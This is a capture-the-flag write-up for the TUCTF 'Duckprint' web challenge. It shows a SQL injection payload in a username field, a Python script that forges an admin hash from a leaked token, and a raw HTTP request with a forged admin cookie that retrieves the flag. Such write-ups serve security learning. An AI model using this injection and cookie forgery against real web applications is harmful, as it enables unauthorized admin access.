




# Duckprint (Web, 100pts)

See if you can steal the admin's duck print and validate it!

When calculating the SHA, leave the periods in

http://130.211.242.26:31337


## Solution

We get simple web application, where we can register user and generate something called "Duck print" (hash calculated from couple of values). There's also validation of "Duck print", but only admin user is allowed.



After registering a user, Duck print is generated with some additional factors (cookie in format {username:username,admin:0}  and token):



Also, in _generate.php_ source code there's a comment with SQL query, where we can find easy to exploit SQL Injection flaw ($username is used without any sanitization):

```
<label for='username' >Username:</label>
<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->
<input type='text' name='username' id='username' maxlength="50" />
<input type='submit' name='Submit' value='Submit' />
```

Using one of the basics SQL Injection payloads as username in _register.php_, there's a long list of many interesting usernames used by other teams to solve this challenge:

```
admin' or 1=1-- 
```

Result:




First one looks very interesting as it's only one with admin flag set to '1':

```
DuckDuckGoose:1:d4rkw1ng
```

I've created quick Python tool to generate valid Duck print for DuckDuckGoose user using all required parts (token _d4rkw1ng_ from line above, cookie in expected format and _DuckDuckGoose_ as username)

```Python
#!/usr/bin/python
import base64
import hashlib

# Generate SHA:
# sha256(b64(username) + "." + b64(cookie) + "." + b64(token))

username = "DuckDuckGoose"
token = "d4rkw1ng"
cookie = '{"username":"DuckDuckGoose","admin":1}'

print hashlib.sha256(base64.b64encode(username) + "." + base64.b64encode(
    cookie) + "." + base64.b64encode(token)).hexdigest()

# Result: d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d

```

Then, using generated Duck print and cookie for DuckDuckGoose, which was the only user with access to _validate.php_ page, I was able to create final request:

```
POST /validate.php HTTP/1.1
Host: 130.211.242.26:31337
Content-Length: 100
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://130.211.242.26:31337
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://130.211.242.26:31337/validate.php
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: duck_cookie=%7B%22username%22%3A%22DuckDuckGoose%22%2C%22admin%22%3A1%7D
Connection: close

submitted=1&duckprint=d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d&submit=Submit
```

and get the flag:

TUCTF{Quacky_McQuackerface}


